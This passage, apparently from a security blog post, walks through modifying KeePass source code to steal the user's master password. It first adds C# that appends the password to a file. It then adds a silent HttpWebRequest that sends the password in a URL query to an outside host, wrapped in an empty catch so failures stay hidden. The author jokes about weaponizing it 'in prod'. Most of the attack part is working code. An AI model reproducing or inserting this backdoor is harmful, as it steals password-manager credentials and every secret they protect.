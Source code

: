 ![[Pasted image 20230831020308.png]](https://blog.spookysec.net/img/Pasted image 20230831020308.png)

Looking at the surrounding function, we can see stbPassword is converted to UTF-8, a more user friendly format. We can also see some attempted validation, so if we want to be extra sure we've got the right thing, we can embed our GET/POST request in the function. As a Proof of Concept, let's just grab *all* the data a user enters. For simplicity of testing to ensure we've got the right field, we can just write the data out to a file. 
```cs
				if(cbPassword.Checked)
				{
					pbPasswordUtf8 = stbPassword.TextEx.ReadUtf8();
					...
					FileStream fs = File.Open("C:\\Users\\YOURUSER\\Downloads\\notapass.txt", FileMode.Append);
					fs.Write(pbPasswordUtf8,0, pbPasswordUtf8.Length);
					fs.Close();
					...
					if(bNewKey)
					{
						if(!icgPassword.ValidateData(true)) return null;
```
Compiling the code and running KeePass we are presented with roughly what we expect. No visual differences. Now, the magic is supposed to happen after we input the password and press the "OK" button (remember, we got this function from OnBtnOK).

![[Pasted image 20230831020059.png]](https://blog.spookysec.net/img/Pasted image 20230831020059.png)

We've entered our super secret password and pressing OK creates a new file!

![[Pasted image 20230831020140.png]](https://blog.spookysec.net/img/Pasted image 20230831020140.png)

Bingo. We got it. So, now we know definitely what variable contains the password. It should be trivial to send an HTTP request to our site to exfil our data. I'd recommend deleting the code in case you decide you want to actually weaponize this in prod... Just don't want to leave that laying around ;D

### Silent Exfiltration via the Web
For our POC, we'll want to move down lower to grab the verified password and not just any password. I think line 147~ (in the IF statement)) is a good place for this, right before the data gets zero'd out from memory. Using the HttpWebRequest library, we can craft a simple HTTP request. The code looks something like so:
```cs
				if (cbKeyFile.Checked) strKeyFile = cmbKeyFile.Text;
				...
				try
				{
					string url = "https://xss.bananaisu.com/index.html?kp=" + Encoding.UTF8.GetString(pbPasswordUtf8);
					HttpWebRequest request = (HttpWebRequest)WebRequest.Create(url);
					request.Method = "GET";
					request.GetResponse();
				}
				catch
				{ 
				}
				...
				return CreateKey(pbPasswordUtf8, strKeyFile, cbUserAccount.Checked,
					ioc, bNewKey, bSecureDesktop);
			}

```
